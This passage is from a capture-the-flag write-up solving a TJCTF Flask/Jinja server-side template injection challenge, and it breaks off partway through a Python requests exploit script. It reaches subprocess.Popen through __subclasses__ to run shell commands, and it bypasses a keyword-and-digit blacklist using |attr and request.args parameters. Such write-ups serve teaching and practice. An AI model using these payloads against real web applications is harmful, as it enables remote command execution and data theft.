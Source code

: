 ```html
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, ... <class 'subprocess.CompletedProcess'>, <class 'subprocess.Popen'>, <class '_hashlib.HASH'>, <class '_blake2.blake2b'>, <class '_blake2.blake2s'>, <class '_sha3.sha3_224'>, <class '_sha3.sha3_256'>, <class '_sha3.sha3_384'> ... , <class 'multiprocessing.synchronize.SemLock'>, <class 'multiprocessing.synchronize.Condition'>, <class 'multiprocessing.synchronize.Event'>, <class 'multiprocessing.popen_fork.Popen'>]
```

Yeah, a lot of classes ... Let's cut out the useless classes so we can see our friend <class 'subprocess.Popen'> at index 199 of the subclasses list.
At this point the payload would be :

```
''.__class__.__mro__[1].__subclasses__()[199]('cat strategyguide.txt', shell=True, stdout=-1).communicate()
```
![web](/assets/img/TJCTF20/web_5.png)

Or maybe not ? Oh yeah, the blacklisting function. Lets analyze it better :

1. No words containig :
```python
illegal = ['"', 'class', '[', ']', 'dict', 'sys', 'os', 'eval', 'exec', 'config.']
```
2. No numbers :
```python
for i in range(10):
        if str(i) in text:
            return False
```

Tricky enough, we can bypass all of these rules using alternative inputs :

### Bypass blacklist

We have to bypass the restricted words like _class_ and _subclass_ using |attr and the number filtering in arrays unsing _.pop(index)_
```python
''.__class__  # bypass using ''|attr(request.args.cl) adding ?cl=__class__ as GET param
__mro__[1]    # bypass using mro().pop(request.args.num | int) adding ?num=1 or &num=1 (if not first arg) as GET param
```

Same logic for the other blacklisted words and numbers.
Final payload :

```python
#!/bin/python
import requests
import multiprocessing

headers = {
    'authority': 'congenial_octo_couscous.tjctf.org',
    'accept': '*/*',
    'x-requested-with': 'XMLHttpRequest',
    'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.92 Safari/537.36',
    'content-type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'origin': 'https://congenial_octo_couscous.tjctf.org',
    'sec-fetch-site': 'same-origin',
    'sec-fetch-mode': 'cors',
    'sec-fetch-dest': 'empty',
    'referer': 'https://congenial_octo_couscous.tjctf.org/',
    'accept-language': 'it-IT,it;q=0.9,fr-IT;q=0.8,fr;q=0.7,en-IT;q=0.6,en;q=0.5,en-US;q=0.4',
}

data = {
  'fname': 'test',
```
